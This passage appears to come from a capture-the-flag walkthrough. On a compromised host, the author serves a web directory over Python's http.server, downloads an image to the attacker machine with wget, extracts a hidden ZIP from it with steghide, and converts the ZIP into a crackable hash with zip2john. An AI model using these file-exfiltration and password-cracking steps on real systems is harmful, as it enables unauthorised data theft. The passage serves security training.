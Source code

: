 * Let's list out the contents of the directory.

```
apaar@ubuntu:/var/www/files/images$ ls -la
ls -la
total 2112
drwxr-xr-x 2 root root    4096 Oct  3  2020 .
drwxr-xr-x 3 root root    4096 Oct  3  2020 ..
-rw-r--r-- 1 root root 2083694 Oct  3  2020 002d7e638fb463fb7a266f5ffc7ac47d.gif
-rw-r--r-- 1 root root   68841 Oct  3  2020 hacker-with-laptop_23-2147985341.jpg
```

* We can see that there is a JPG image.
* Let's set up a Python3 server so that we can get this file from our attacker machine.

```
apaar@ubuntu:/var/www/files/images$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* On our attacker machine we have to use `wget` to download the JPG file.

```
$ wget http://10.10.159.234:8000/hacker-with-laptop_23-2147985341.jpg
--2023-12-14 15:15:45--  http://10.10.159.234:8000/hacker-with-laptop_23-2147985341.jpg
Connecting to 10.10.159.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 68841 (67K) [image/jpeg]
Saving to: ‘hacker-with-laptop_23-2147985341.jpg’

hacker-with-laptop_23-2147985341.jpg                       100%[========================================================================================================================================>]  67.23K   182KB/s    in 0.4s    

2023-12-14 15:15:46 (182 KB/s) - ‘hacker-with-laptop_23-2147985341.jpg’ saved [68841/68841]
```

* Using `steghide` we can check if there is any embedded file or message and extract it.

```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

* Let's `unzip` the ZIP file.

```
$ unzip backup.zip                    
Archive:  backup.zip
[backup.zip] source_code.php password: 
```

* In order to unzip it we need a password.
* We can use `zip2john` to convert the ZIP file into a hash.

```
$ zip2john backup.zip > backup_hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3 ts=2297 cs=2297 type=8
```
